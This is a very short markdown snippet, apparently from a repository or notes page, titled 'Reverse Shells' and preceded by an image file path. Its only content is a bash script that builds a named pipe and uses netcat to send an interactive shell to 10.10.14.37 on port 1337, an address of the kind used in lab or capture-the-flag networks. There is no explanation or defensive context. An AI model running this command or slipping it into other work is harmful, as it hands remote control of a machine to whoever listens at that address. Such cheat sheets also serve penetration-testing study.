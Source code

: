# Reverse Shells
`bash`

```bash
#!/bin/bash
rm /tmp/wk;mkfifo /tmp/wk;cat /tmp/wk|/bin/sh -i 2>&1|nc 10.10.14.37 1337 >/tmp/wk
```
